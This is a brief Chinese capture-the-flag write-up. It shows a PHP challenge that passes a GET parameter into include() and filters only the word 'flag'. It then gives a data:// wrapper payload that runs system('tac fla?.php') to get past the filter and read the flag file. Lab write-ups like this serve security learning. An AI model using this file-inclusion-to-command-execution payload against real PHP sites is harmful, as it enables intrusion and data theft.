

# 知识点

# 思路
源码
```git
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php"); // 后面添加了.php
    }
        
}else{
    highlight_file(__FILE__);
}
```
payload
```git
?c=data://text/plain,<?php system("tac fla?.php");?>
```
data://text/plain, 这样就相当于执行了php语句 .php 因为前面的php语句已经闭合了，所以后面的.php会被当成html页面直接显示在页面上，起不到什么 作用<br />
